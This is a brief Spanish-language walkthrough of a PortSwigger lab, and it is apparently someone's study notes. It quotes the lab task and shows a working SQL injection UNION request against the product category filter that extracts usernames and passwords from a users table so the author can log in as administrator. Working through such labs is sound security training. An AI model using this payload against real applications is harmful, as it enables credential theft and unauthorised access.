# 3 - Retrieving data from other tables

> This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
>
>  The database contains a different table called `users`, with columns called `username` and `password`.
>
>  To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

SImilar a los anteriores cambio la categoria pero para incluir usuario y contraseña de la tabla de users.

`GET /filter?category=Accesories'+UNION+SELECT+username+,+password+FROM+users-- HTTP/1.1`

![](../../../.gitbook/assets/imagen%20%28619%29.png)

Nos logeamos y listo.

